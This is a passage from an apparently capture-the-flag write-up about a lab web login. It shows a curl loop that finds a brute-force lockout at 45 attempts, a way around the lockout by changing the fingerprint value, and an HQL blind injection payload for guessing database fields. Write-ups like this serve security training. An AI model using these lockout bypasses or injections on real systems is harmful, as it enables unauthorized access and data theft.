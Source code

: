 The site mentioned there was brute force protection. I didn’t originally discover this until later when I was doing the blind injection, but it makes more sense to show it here. If I try to login many times in a row quickly, it will eventually stop returning the typical response and instead give:

```

HTTP/1.1 200 OK
Server: GlassFish Server Open Source Edition  5.0.1 
X-Powered-By: Servlet/3.1 JSP/2.3 (GlassFish Server Open Source Edition  5.0.1  Java/Private Build/1.8)
Content-Type: text/html;charset=ISO-8859-1
Connection: close
Content-Length: 16

You are blocked

```

To play with this a bit more, I can see it happens on the 45th attempt:

```

oxdf@hacky$ for i in {1..50}; do echo -n "$i  "; curl -s http://10.10.11.127:8080/login -d 'uid=0xdf&auth_primary=0xdf&auth_secondary=97c98f6f98fb6ac11d06f7239847c7a4' | gr
ep -e Invalid -e blocked; done
1      Invalid credentials given
2      Invalid credentials given
3      Invalid credentials given
4      Invalid credentials given
5      Invalid credentials given
...[snip]...
41      Invalid credentials given
42      Invalid credentials given
43      Invalid credentials given
44      Invalid credentials given
45  You are blocked
46  You are blocked
47  You are blocked
48  You are blocked
49  You are blocked
50  You are blocked

```

Interestingly, changing the fingerprint unblocks me. When I want to brute force the blind injection, I’ll want to use a random fingerprint each time to avoid being blocked.

#### Blind Injection

Because I have an injection that returns different responses based on the injection, I can do a blind injection. [This post](https://medium.com/@misc_heading/exploiting-a-hql-injection-895f93d06718) gives an example, but you have to guess the fields in the database to make it work.

I tried guessing that the username might be stored in `uid` with a username like `0xdf' or uid like 'b%` (though the `%` needs to be encoded to `%25`), and it returned Invalid Credentials. When I try with `'a%`, it returned Invalid fingerprint-ID. Now I have a way to brute force any column I can guess.
